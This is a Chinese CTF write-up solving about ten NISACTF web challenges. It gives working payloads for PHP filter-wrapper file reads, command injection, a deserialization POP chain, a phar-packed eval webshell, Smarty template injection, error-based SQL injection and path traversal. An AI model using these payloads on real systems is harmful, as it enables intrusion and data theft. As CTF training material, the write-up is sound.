

##  前言
复现环境：NSSCTF
##  checkin

考点：Unicode的特殊字符导致复制字符很奇怪


复制到vscode可以看到unicode字符

直接上payload

```
?ahahahaha=jitanglailo&%E2%80%AE%E2%81%A6Ugeiwo%E2%81%A9%E2%81%A6cuishiyuan=%E2%80%AE%E2%81%A6 Flag!%E2%81%A9%E2%81%A6N1SACTF
```

这个题意义不大。

##  easyssrf

直接file://协议读


然后file://fl4g


访问ha1x1ux1u.php

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

一个filter伪协议读取文件内容

```
php://filter/read=convert.base64-encode/resource=/flag
```

## level-up

第一步：robots.txt

第二步：level_2_1s_h3re.php

md5的强比较

直接payload：

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
    
    
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

```

第三步：sha1的强比较

```
array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
    &array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1

```

第四步：level_level_4.php

```
<?php
//here is last level
    error_reporting(0);
    include "str.php";
    show_source(__FILE__);

    $str = parse_url($_SERVER['REQUEST_URI']);
    if($str['query'] == ""){
        echo "give me a parameter";
    }
    if(preg_match('/ |_|20|5f|2e|\./',$str['query'])){
        die("blacklist here");
    }
    if($_GET['NI_SA_'] === "txw4ever"){
        die($level5);
    }
    else{
        die("level 4 failed ...");
    }

?> 

```

这个考点就是php传参的时候会对那些不规范不合法的符号转换为`_`

```
在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、+、点、[转换为下划线，但是用一个特性是可以绕过的，就是当[提前出现后，后面的点就不会再被转义了，such as：`CTF[SHOW.COM`=>`CTF_SHOW.COM`
```

第五步：

考点：create_function注入



可以利用create_funtion函数来进行命令注入

而且需要绕过正则，这个正则匹配大小写字母和短横线

利用`\`来绕过

payload

```php
action=\create_function&arg=echo 1;}system("ls /");//
```


##  自创题

```php
// index.php
<?php
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){// 检验是否是合法url
    $site_info = parse_url($url); // 解析url, 返回他的组成部分
    echo '<br>'.'host为'.$site_info['host'].PHP_EOL;
    //var_dump($site_info);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){//需要host部分是指定的,$表示匹配字符串的结束，因此只要结尾有这个host就可以
        echo 'curl "'.$site_info['host'].'"'.PHP_EOL;
        exec('curl "'.$site_info['host'].'"', $result);// ?url=javascript://";dir;"sec-redclub.com
        echo '<br>'.$result.PHP_EOL;
        var_dump($result);
        echo 'curl "'.$site_info['host'].'"';
        echo "<center><h1>You have curl {$site_info['host']} successfully!</h1></center>
              <center><textarea rows='20' cols='90'>";
        echo implode(' ', $result);
    }
    else{
        die("<center><h1>Error: Host not allowed</h1></center>");
    }

}
else{
    echo "<center><h1>Just curl sec-redclub.com!</h1></center><br>
          <center><h3>For example:?url=http://sec-redclub.com</h3></center>";
}

?>
```

代码审计，需要绕过` filter_var`

filter_var函数定义：


常见的过滤器:

- FILTER_CALLBACK：调用用户自定义函数来过滤数据。
- FILTER_SANITIZE_STRING：去除标签，去除或编码特殊字符。
- FILTER_SANITIZE_STRIPPED：”string” 过滤器的别名。
- FILTER_SANITIZE_ENCODED：URL-encode 字符串，去除或编码特殊字符。
- FILTER_SANITIZE_SPECIAL_CHARS：HTML 转义字符 ‘”<>& 以及 ASCII 值小于 32 的字符。
- FILTER_SANITIZE_EMAIL：删除所有字符，除了字母、数字以及 !#$%&’*+-/=?^_{|}~@.[]
- FILTER_SANITIZE_URL：删除所有字符，除了字母、数字以及 $-_.+!*'(),{}|\^~[]<>#%”;/?😡&=
- FILTER_SANITIZE_NUMBER_INT：删除所有字符，除了数字和 +-
- FILTER_SANITIZE_NUMBER_FLOAT：删除所有字符，除了数字、+- 以及 .,eE。
- FILTER_SANITIZE_MAGIC_QUOTES：应用 addslashes()。
- FILTER_UNSAFE_RAW：不进行任何过滤，去除或编码特殊字符。
- FILTER_VALIDATE_INT：在指定的范围以整数验证值。
- FILTER_VALIDATE_BOOLEAN：如果是 “1”, “true”, “on” 以及 “yes”，则返回 true，如果是 “0”, “false”, “off”, “no” 以及 “”，则返回 false。否则返回 NULL。
- FILTER_VALIDATE_FLOAT：以浮点数验证值。
- FILTER_VALIDATE_REGEXP：根据 regexp，兼容 Perl 的正则表达式来验证值。
- FILTER_VALIDATE_URL：把值作为 URL 来验证。
- FILTER_VALIDATE_EMAIL：把值作为 e-mail 来验证。
- FILTER_VALIDATE_IP：把值作为 IP 地址来验证。


绕过`FILTER_SANITIZE_URL`直接用`javascript://`协议绕过

preg_match这个简单，只需要在末尾跟上`sec-redclub.com`即可

然后就是闭合双引号，实现命令执行

payload：

```
javascript://123"||dir||"sec-redclub.com
javascript://123"||type=flag.php>1.txt||"sec-redclub.com
```

## babyserialize

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever;
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x);
    }
}

class Ilovetxw{
    public $huang;
    public $su;

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0];
    }

    public function __toString(){
        $bb = $this->su;
        return $bb();
    }
}

class four{
    public $a="TXW4EVER";
    private $fun='abc';

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>

```

pop链子

```php
<?php
class NISA{
    public $fun;
    public $txw4ever = "\$a='sy';\$b='stem';(\$a.\$b)('cat /f*');";
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;
    public $x;

    public function __wakeup()
    {
        $this->ext->nisa($this->x); //Ilovetxw类__call()
    }
}

class Ilovetxw{
    public $huang;
    public $su;

    public function __construct(){
        $this->su = new NISA();
    }

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0]; //four类__set()
    }

    public function __toString(){
        $bb = $this->su;
        return $bb(); //NISA类__invoke()
    }
}

class four
{
    public $a;
    private $fun = 'sixsixsix';

    public function __set($name, $value)
    {
        $this->$name = $value;
        if ($this->fun = "sixsixsix") {
            strtolower($this->a);
        }
    }
}
$a=new TianXiWei();
$a->ext=new Ilovetxw();
$a->ext->huang=new four();
$a->ext->huang->a=new Ilovetxw();
$a->ext->huang->a->su=new NISA();
echo urlencode(serialize($a));
?>

```

##  bingdundun~

考点：phar文件上传getshell

提示可以上传压缩包，所以就想到了`zip协议`和`phar协议`

这儿是一个index（代码自动补充后缀`.php`）的文件内容打开，说明可能是一个文件包含

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-nxgD958l-1657701115002)(C:/Users/15908387732/AppData/Roaming/Typora/typora-user-images/image-20220713150032036.png)]


```php
<?php
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("test.php", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

生成后phar需要改成`zip`后缀（phar文件和zip文件都是压缩性文件）直接上传，然后包含

```
http://1.14.71.254:28458/?bingdundun=phar:///var/www/html/e4fc58499d8c95a560b2fe3c6de98776.zip/test
```

##  middlerce

考点：绕过preg_match实现RCE

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

绕过三种方式：%0a(正则有个m不能用了)，还可以用数组绕过，最大正则回溯

这儿利用最大回溯来绕过

然后再处理`json_decode`时，需要使用键值对

同时利用写入本地文件拿flag

给出payload

```
import requests
payload = '{"cmd":"`nl /f*>1`;","test":"' + "@"*(1000000) + '"}'
res = requests.post("http://1.14.71.254:28769/", data={"letter":payload})
r=requests.get("http://1.14.71.254:28769/1")
print(r.text)
```

## midlevel

考点：smarty模板注入

payload：

```
{if system("ls  /")}{/if}  
{if system("cat /flag")}{/if}
```

##  join us

```php
<?php
error_reporting(0);
session_start();
include_once "config.php";
global $MysqlLink;
$MysqlLink = mysqli_connect("127.0.0.1",$datauser,$datapass);
if(!$MysqlLink) {
    die("Mysql Connect Error!");
}
$selectDB = mysqli_select_db($MysqlLink,$dataName);
if(!$selectDB) {
    die("Choose Database Error!");
}
if(isset($_POST['tt'])) {
    $txw4ever = $_POST['tt'];
    $blacklist = "union|left|right|and|or|by|if|\&|sleep|floor|substr|ascii|=|\"|benchmark|as|column|insert|update";
    if(preg_match("/{$blacklist}/is",$txw4ever)) {
        die("不要耍小心思喔~");
    }
    $sql = "select*from Fal_flag where id = '$txw4ever';";
    $result = mysqli_query($MysqlLink,$sql);
    if($result) {
        $row = mysqli_fetch_array($result);
        echo "message: ";
        print_r($row['data']);
    } else {
        echo mysqli_error($MysqlLink);
    }
} else {
    die("?");
}
?>
```

报错注入

过滤：https://www.anquanke.com/post/id/193512

```php
1'|| extractvalue(1,concat(0x7e,(select group_concat(table_name) from mysql.innodb_table_stats),0x7e))#
```

flag在output中

##  babyupload

```python
from flask import Flask, request, redirect, g, send_from_directory
import sqlite3
import os
import uuid

app = Flask(__name__)

SCHEMA = """CREATE TABLE files (
id text primary key,
path text
);
"""


def db():
    g_db = getattr(g, '_database', None)
    if g_db is None:
        g_db = g._database = sqlite3.connect("database.db")
    return g_db


@app.before_first_request
def setup():
    os.remove("database.db")
    cur = db().cursor()
    cur.executescript(SCHEMA)


@app.route('/')
def hello_world():
    return """<!DOCTYPE html>
<html>
<body>
<form action="/upload" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="file">
    <input type="submit" value="Upload File" name="submit">
</form>
<!-- /source -->
</body>
</html>"""


@app.route('/source')
def source():
    return send_from_directory(directory="/var/www/html/", path="www.zip", as_attachment=True)


@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        return redirect('/')
    file = request.files['file']
    if "." in file.filename:
        return "Bad filename!", 403
    conn = db()
    cur = conn.cursor()
    uid = uuid.uuid4().hex
    try:
        cur.execute("insert into files (id, path) values (?, ?)", (uid, file.filename,))
    except sqlite3.IntegrityError:
        return "Duplicate file"
    conn.commit()

    file.save('uploads/' + file.filename)
    return redirect('/file/' + uid)


@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404

    # print(res[0])

    with open(os.path.join("uploads/", res[0]), "r") as f:
        return f.read()


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

直接构造恶意文件名`//flag`

然后访问`url//file/56b382e39698477e88814a217d29e95b</a>`